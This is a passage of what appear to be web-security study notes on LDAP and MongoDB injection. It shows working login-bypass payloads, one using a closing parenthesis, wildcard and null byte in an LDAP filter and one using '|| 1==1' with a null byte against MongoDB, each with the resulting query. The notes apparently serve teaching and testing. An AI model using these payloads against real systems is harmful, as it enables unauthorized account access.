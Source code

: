   ```
  (&(cn=[INPUT1])(userPassword=[INPUT2]))
  ```

  to get records for which the `cn` matches `[INPUT1]` and the password matches `[INPUT2]`

* LDAP uses the wildcard * character very often, to match any values (for example, `adm*` for all words starting with `adm`)

* EXAMPLE:

  * `username=hacker&password=hacker` we get authenticated (this is the normal request).
  * `username=hack*&password=hacker` we get authenticated (the wildcard matches the same value).
  * `username=hacker&password=hac*` we don't get authenticated (the password may likely be hashed).

  based on the above request we can deduce that the filter probably looks like

  ```
  (&(cn=[INPUT1])(userPassword=HASH[INPUT2]))
  ```

  TO attack this example we will send this request

  `username=admin)(cn=*))%00&password=abcd`

  it will make the code:

  ```
  (&(cn=admin)(cn=*))%00(userPassword=admin))
  ```

  cn=* to fulfil the **&** condition

  NULL BYTE to get rid of anything after

### MongoDB Injection

* will need two things to bypass this login for:

  - An always true condition.
  - A way to correctly terminate the NoSQL query.

* SQL `or 1=1` translates to `|| 1==1`

* NULL BYTE will prevent MongoDB from using the rest of the query

  comments `//` or `<!--` to comment out the end of the query

* EXAMPLE:

  `username=admin&password=admin`

  we got an error when using `admin'` as username

  so injection will be like 

  `username=admin' || 1==1%00&password=admin`

##### Basic Syntax

* in url `/?search=admin` we can deduce that there is probably a `password` field.

  * if we access:
